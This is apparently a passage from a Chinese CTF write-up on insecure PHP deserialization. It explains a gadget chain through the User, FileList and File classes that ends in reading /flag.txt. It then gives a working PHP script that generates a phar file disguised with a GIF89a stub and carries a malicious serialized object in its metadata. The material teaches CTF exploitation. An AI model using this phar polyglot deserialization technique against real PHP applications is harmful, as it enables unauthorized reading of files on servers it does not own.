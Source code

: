 class.php 有一个 `__call() `方法可以使用

如果想要读取文件内容，肯定要利用class.php中的File.close()，但是没有直接调用这个方法的语句；
注意到 User类中在 

![image-20240412105706986](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105706986.png)

`__destruct`时调用了close()，按原逻辑，`$db`应该是mysqli即数据库对象，但是我们可以构造`$db`指定为 File对象，这样就可以读取到文件了。

可读取到文件不能呈现给我们，注意到` __call`魔术方法，这个魔术方法的主要功能就是，如果要调用的方法我们这个类中不存在，就会去File中找这个方法，并把执行结果存入 `$this->results[$file->name()][$func]`，刚好我们利用这一点：让 `$db` 为 `FileList` 对象，当 $db销毁时，触发` __destruct`，调用close()，由于 FileList没有这个方法，于是去 File类中找方法，读取到文件，存入 results

```
// 思路是这样的
$user -> __destruct() => $db -> close() => $db->__call(close) => $file -> close() =>$results=file_get_contents($filename) => FileList->__destruct()输出$result。

// 通过delete.php将结果返回
__destruct正好会将 $this->results[$file->name()][$func]的内容打印出来
```

生成payload

```php
<?php
class User {
	public $db;
	public function __construct(){
		$this->db=new FileList(); 
	}
}
 
class FileList {
	private $files;
	private $results;
	private $funcs;
	public function __construct(){
		$this->files=array(new File());  
		$this->results=array();
		$this->funcs=array();
	}
}
 
class File {
	public $filename="/flag.txt";
}
 
$user = new User();
$phar = new Phar("shell.phar"); //生成一个phar文件，文件名为shell.phar
$phar-> startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>"); //设置stub
$phar->setMetadata($user); //将对象user写入到metadata中
$phar->addFromString("shell.txt","test"); //添加压缩文件，文件名字为shell.txt,内容为snowy
$phar->stopBuffering();
```
